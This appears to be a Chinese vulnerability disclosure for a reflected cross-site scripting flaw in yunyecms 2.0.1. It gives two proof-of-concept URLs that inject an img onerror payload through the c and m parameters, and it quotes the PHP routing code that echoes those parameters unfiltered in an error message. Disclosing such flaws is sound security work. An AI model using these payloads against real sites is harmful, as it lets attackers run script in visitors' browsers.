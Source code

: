 yunyecms前台存在反射型xss漏洞

http://127.0.0.1/yunyecms2.0.1/index.php?a=login&c=member&m=%3Cimg%20src=1%20onerror=alert`ss`%3E

http://127.0.0.1/yunyecms2.0.1/index.php?a=login&c=%3Cimg%20src=1%20onerror=alert`ss`%3E

![image-20250331170833767](image/image-20250331170833767.png)

代码分析：

![image-20250331210440628](image/image-20250331210440628.png)

可以看到输入c=xxx或者m=xxx时候,会将输入内容返回到页面上

所以定位

```
	private function load_controller($filename = '', $m = '') {
		if (empty($filename)) $filename = ROUTE_C;
		if (empty($m)) $m = ROUTE_M;
		$filepath = YUNYECMS_CORE.'app'.DIRECTORY_SEPARATOR.$m.DIRECTORY_SEPARATOR.$filename.'.php';
		if (file_exists($filepath)) {
			$classname = $filename;
			include $filepath;
			if(class_exists($classname)){
				return new $classname;
			}else{
			  exit('Controller file '.$filepath.' does not exist.');
 			}
		} else {
			exit('Controller file '.$filepath.' does not exist.');
		}
	}
}
```

输入参数为filename和m，报错时会回显到页面，$filename = '', $m = '',跟进 ROUTE_C，ROUTE_M

```
if(empty($path)){
				$var["m"] = ROUTE_M;
				$var["c"] =
                    ROUTE_C;
                $var["a"] = ROUTE_A;
			}else{
				$pathsize=count($path);
				switch($pathsize){
					case 1: 
					$var["m"] = ROUTE_M;
					$var["c"] = ROUTE_C;
					$var["a"] = strtolower(array_pop($path));
					break;
					case 2:
					$var["m"] = ROUTE_M;
					$var["c"] = strtolower(array_pop($path));
					$var["a"] = strtolower(array_pop($path));
					break;
					case 3:
					$var["m"] = strtolower(array_pop($path));
					$var["c"] = strtolower(array_pop($path));
					$var["a"] = strtolower(array_pop($path));
					break;
				}
			}
```

输出无过滤。